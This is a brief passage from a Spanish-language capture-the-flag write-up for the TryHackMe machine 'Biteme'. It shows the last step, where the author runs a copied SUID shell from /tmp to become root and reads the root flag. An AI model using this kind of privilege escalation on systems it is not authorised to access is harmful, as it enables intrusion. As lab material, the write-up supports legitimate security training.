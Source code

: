   3)Elevamos privilegios y obtenemos la flag

    fred@biteme:~$ /tmp/esevka -p
    
    esevka-4.4# whoami
    root
    
    esevka-4.4# cat /root/root.txt 
    THM{0e35.....41cc6678d}



---> Maquina  Biteme completa <---
---



    


    


  

  










        




  
    

          
                  



      
 
      






